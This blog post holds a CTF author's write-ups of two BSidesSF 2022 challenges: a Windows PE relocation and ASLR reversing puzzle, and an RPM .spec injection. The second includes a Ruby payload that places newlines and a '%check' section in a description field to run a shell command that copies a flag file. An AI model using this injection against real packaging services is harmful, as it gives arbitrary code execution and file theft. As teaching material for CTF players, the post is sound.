```yaml
---
id: 2632
title: 'BSidesSF 2022 Writeups: Miscellaneous Challenges (loca, reallyprettymundane)'
date: '2022-06-17T15:19:23-05:00'
author: ron
layout: post
guid: https://blog.skullsecurity.org/?p=2632
permalink: "/2022/bsidessf-2022-writeups-miscellaneous-challenges-loca-reallyprettymundane"
categories:
- bsidessf-2022
- ctfs
comments_id: '109638382936917271'

---
```


<p>Hey folks,</p>
<p>This is my (Ron's / iagox86's) author writeups for the BSides San Francisco 2022 CTF. You can get the full source code for everything <a href="https://github.com/bsidessf/ctf-2022-release">on github</a>. Most have either a Dockerfile or instructions on how to run locally. Enjoy!</p>
<!--more-->
<p>Here are the four BSidesSF CTF blogs:</p>
<ul>
<li><a href="https://blog.skullsecurity.org/2022/bsidessf-2022-writeups-tutorial-challenges-shurdles-loadit-polyglot-nft">shurdles1/2/3, loadit1/2/3, polyglot, and not-for-taking</a></li>
<li><a href="https://blog.skullsecurity.org/2022/bsidessf-2022-writeups-apache-challenges-mod_ctfauth-refresh">mod_ctfauth, refreshing</a></li>
<li><a href="https://blog.skullsecurity.org/2022/bsidessf-2022-writeups-game-y-challenges-turtle-guessme">turtle, guessme</a></li>
<li><a href="https://blog.skullsecurity.org/2022/bsidessf-2022-writeups-miscellaneous-challenges-loca-reallyprettymundane">loca, reallyprettymundane</a></li>
</ul>
<h2>Loca - A weird Windows reversing challenge</h2>
<p>Several years ago, I wrote a challenge called <a href="https://blog.skullsecurity.org/2019/in-bsidessf-ctf-calc-exe-exploits-you-author-writeup-of-launchcode"><em>launchcode</em></a>, where I backdoored <code>calc.exe</code> so it would detect a certain pattern of button presses and display a special message if it detects them (that in turn was based on a bug in Steam). But often, if I replaced certain bytes in the executable, it would mysteriously corrupt the code and crash! I eventually figured out it was due to &quot;relocations&quot;, and I thought I'd make a challenge based on that.</p>
<p>This is where <em><a href="https://github.com/BSidesSF/ctf-2022-release/tree/main/loca">loca</a></em> came from!</p>
<p>A Windows binary (ie, PE file) has a section called <a href="https://docs.microsoft.com/en-us/windows/win32/debug/pe-format#the-reloc-section-image-only"><code>.reloc</code>, or relocation</a>. That section is essentially a big list (encoded in a weird, page-based DOS-ey feeling way) that lists every hardcoded memory address in the PE image.</p>
<p>When the Windows loader loads the PE image at an address where it doesn't want to be loaded to (which is always with ASLR), it will navigate that list and update each address in the loaded binary. It adds the difference between where it wants to be loaded and where it is actually loaded to the original value. That way, no matter where the image is loaded into memory, the hardcoded addresses will point to the right spot.</p>
<p>That's obviously a ridiculous way to handle relocations, but I'm sure there are pros and cons.</p>
<p>For this challenge, I calculate a simple request/response. The problem  is that the initial value of the checksum I calculate is marked as a relocation, which means it changes based on where it's loaded. That means that for a solution, you need to:</p>
<ul>
<li>Realize it's relocating the seed address</li>
<li>Leak a memory address using an information-disclosure issue</li>
<li>Calculate the result for the current offset</li>
</ul>
<p>All this has the bonus that it breaks debugging - debuggers disable ASLR, which means if you debug this executable you'll miss the trick entirely. I'm not sure if that's good or bad, because I had several people ask questions, but it certainly made it challenging!</p>
<h2>reallyprettymundane</h2>
<p><em><a href="https://github.com/BSidesSF/ctf-2022-release/tree/main/reallyprettymundane">reallyprettymundane</a></em> is an RPM-spec-injection attack. It's based on something I found while investigating <a href="https://attackerkb.com/topics/SN5WCzYO7W/cve-2022-1388/rapid7-analysis">CVE-2022-1388</a>. Basically, if you can add newlines to an RPM's .spec file, you can run arbitrary code by adding a new section to the .spec. Some sections contain executable code, and that's what we care about!</p>
<p>For our <a href="https://github.com/BSidesSF/ctf-2022-release/blob/main/reallyprettymundane/solution/solve.rb">solution</a>, we target the <code>%check</code> section, which consists of shell commands. The solution is somewhat complex, because I didn't want to spawn a shell, but the bones of it is this form:</p>
<pre><code>    :body =&gt; {
      :name        =&gt; &#039;name&#039;,
      :summary     =&gt; &#039;summary&#039;,
      :version     =&gt; &#039;hi&#039;,
      :release     =&gt; &#039;2&#039;,

      # The payload is here - it copies the flag over top of the target filename
      :description =&gt; &quot;description\n\n%check\n\ncp #{ FLAG_PATH } $RPM_BUILD_ROOT/name/#{ TARGET_FILE_NAME }*\n&quot;,

      &#039;file&#039;  =&gt; [t],
    }</code></pre>
<p>Specifically, the description, which is:</p>
<pre><code>description

%check

cp #{ FLAG_PATH } $RPM_BUILD_ROOT/name/#{ TARGET_FILE_NAME }*</code></pre>
<p>You could run any shell command in there - the one I came up with copies the flag file into the folder that's being packaged up. That way, it sends me the flag and I don't have to deal with code execution!</p>
